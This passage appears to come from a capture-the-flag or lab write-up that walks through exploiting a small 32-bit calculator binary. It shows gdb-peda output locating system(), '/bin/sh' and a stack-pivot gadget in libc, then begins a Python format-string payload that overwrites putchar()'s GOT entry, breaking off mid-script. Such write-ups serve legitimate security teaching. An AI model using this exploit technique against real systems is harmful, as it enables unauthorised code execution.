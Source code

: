 ```
ulimit -s unlimited
```

Great, next was to find the address of system() and "/bin/sh" on the target: 

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x4018bb78 ("/bin/sh")
```

I took note of those addresses. Next was to find a gadget that would clear the stack of 60 bytes. The binary itself was rather small and I couldn't find a gadget that satisfied my requirements. However, since I already had access to the server itself, why not pull down its libc and search that for gadgets? So I transferred /lib/i386-linux-gnu/libc-2.15.so over to my machine and after going over it with ROPeMe, I settled on the following gem:

```
0x19e06L: add esp 0x44 ;;
```

I just had to add this to the base address of libc, which was obtained with peda: 

```
gdb-peda$ vmmap 
Start      End        Perm  Name
.
.
.
0x4002a000 0x401ce000 r-xp  /lib/i386-linux-gnu/libc-2.15.so
.
.
.
```

The result was 0x40043e06. A quick double check to make sure that everything was right: 

```
gdb-peda$ x/5i 0x40043e06
   0x40043e06 <__moddi3+134>:   add    esp,0x44
   0x40043e09 <__moddi3+137>:   ret    
   0x40043e0a <__moddi3+138>:   lea    esi,[esi+0x0]
   0x40043e10 <__moddi3+144>:   mov    ecx,DWORD PTR [esp+0x1c]
   0x40043e14 <__moddi3+148>:   neg    esi
```

Perfect. I now needed to modify sploit.py so that it would write the that address to putchar()'s GOT entry. After a bit of math and tweaking, I ended up with the following: 

```python
#!/usr/bin/env python

import struct

buf =  "1\n"        # calculator option
buf += "10\n"       # first number

# format string payload starts here
buf += "\x10\x9c\x04\x08"
buf += "\x12\x9c\x04\x08"

# this sets putchar() to 0x40043e06 (add esp,0x44; ret) which pivots
# us to an area we control on the stack
buf += "%15870c%8$hn"
buf += "%510c%9$hn"

```